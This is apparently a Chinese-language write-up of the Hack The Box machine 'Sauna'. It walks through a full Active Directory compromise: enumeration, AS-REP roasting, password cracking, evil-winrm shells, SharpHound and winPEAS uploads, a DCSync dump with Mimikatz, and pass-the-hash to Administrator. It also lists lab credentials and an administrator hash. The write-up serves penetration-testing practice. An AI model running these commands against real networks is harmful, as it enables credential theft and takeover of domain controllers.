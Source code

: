 ```yaml
---
description: Easy / 枚举 / AS-REP Roasting / DCsync
---
```


# ✔️ Sauna

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA sauna 10.129.77.184 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 发现开放目标系统开放了80端口，查看后并没有发现什么特别有用的信息，但是发现了很多用户名，先收集起来也许后续会有用：

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 对该80端口进行常规的隐藏文件/目录扫描，没什么收获：

```bash
gobuster dir -u http://10.129.77.184/ -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* dirsearch也没有什么收获：

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用多个工具尝试无密码登录SMB服务，倒是成功了，但是还是无收获：

```bash
smbclient -N -L 10.129.77.184
```

<figure><img src="../../.gitbook/assets/7 (9).png" alt=""><figcaption></figcaption></figure>

```bash
crackmapexec smb 10.129.77.184
```

<figure><img src="../../.gitbook/assets/8 (9).png" alt=""><figcaption></figcaption></figure>

* 使用ldapsearch针对目标的LDAP目录树进行遍历的域名查询，获取到：**DC=EGOTISTICAL-BANK,DC=LOCAL**

```bash
ldapsearch -x -H LDAP://10.129.95.180 -s base namingcontexts
```

<figure><img src="../../.gitbook/assets/9 (7).png" alt=""><figcaption></figcaption></figure>

* 再次进行递归查询，发现有用信息：**dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL**

```bash
ldapsearch -x -H LDAP://10.129.95.180 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' -s sub 
```

* 将收集到的所有用户名及其改写的变体制作成一个username.txt文件：

<figure><img src="../../.gitbook/assets/10 (7).png" alt=""><figcaption></figcaption></figure>

* 因为已经收集到一些专门针对目标系统的有效用户名，所以可以尝试使用kerbrute进行一下暴破，找到几个用户名：

```
./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL username.txt --dc 10.129.95.180
```

<figure><img src="../../.gitbook/assets/11 (6).png" alt=""><figcaption></figcaption></figure>

* 使用GetNPUsers.py从username.txt中找出易受攻击的用户hash:

```bash
./GetNPUsers.Py 'EGOTISTICAL-BANK.LOCAL/' -usersfile username.txt -format hashcat -outputfile hashes.aspro -dc-ip 10.129.95.180
```

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

* 从这个hash中得知是fsmith这个账户的，破解该hash后获得明文密码：**Thestrokes23**

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 使用evil-winrm和刚才得到的有效凭证，登录目标系统成功获得shell：

```bash
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```

<figure><img src="../../.gitbook/assets/16 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 因为systeminfo.exe程序在目标中被限制，所以无法获得信息。随后枚举域内用户账户，得到6个账户：

```bash
net user /domain
# 分别枚举这6个账户名，查看它们的组成员关系：
net user fsmith /domain
```

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/22 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 因为常规的手动枚举并没有什么其他有用信息，所以决定使用bloodhound对该机器的所有信息进行分析，此时继续使用evil-winrm的upload模块，上传sharphound.exe到目标机器中进行信息收集：

```bash
# evil-winrm：
upload /root/Documents/HTB-AD/sauna/tools/sharphound.exe
# 上传完成后直接运行即可，后续会生成一个zip文件：
.\sharphound.exe
```

<figure><img src="../../.gitbook/assets/25 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将这个压缩文件下载下来，直接拖入Bloodhound里就行了：

```bash
# evil-winrm:
download 20240713.............._BloodHound.zip
```

<figure><img src="../../.gitbook/assets/28 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在查看SVC\_LOANMGR@EGOTISTICAL-BANK.LOCAL这个账户时发现，该账户有权限访问目标域上的所有更改（GetChangesAll / GetChanges），这意味着我可以执行DCsync攻击：

<figure><img src="../../.gitbook/assets/29 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 接下来继续使用evil-winrm上传winPEAS到目标中进行再次信息收集：

```bash
upload upload /root/Documents/HTB-AD/sauna/tools/winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/30 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 输出信息中包含了SVC\_LOANMGR账户的用户名和密码：

<figure><img src="../../.gitbook/assets/31 (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 利用svc\_loanmanager这个账户的凭证，用evil-winrm登录到目标中：

```bash
evil-winrm -i 10.129.82.224 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

<figure><img src="../../.gitbook/assets/32 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 上传mimikatz到目标中，然后用DCsync攻击转储内置域管理员账户哈希：

```bash
# 上传：
upload Invoke-Mimikatz.ps1
# 使用mimikatz：
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:Egotistical-bank.local /user:Administrator"'
```

<figure><img src="../../.gitbook/assets/33 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/34 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/35 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得Administrator账户及其hash值：

<figure><img src="../../.gitbook/assets/36 (1).png" alt=""><figcaption></figcaption></figure>

* 利用hash登录，获得Administrator权限的shell，至此已完全控制DC，get flag!

```bash
evil-winrm -i 10.129.82.224 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

<figure><img src="../../.gitbook/assets/37 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/38 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例机器中途重置后IP有变化，但其利用过程无影响。
{% endhint %}
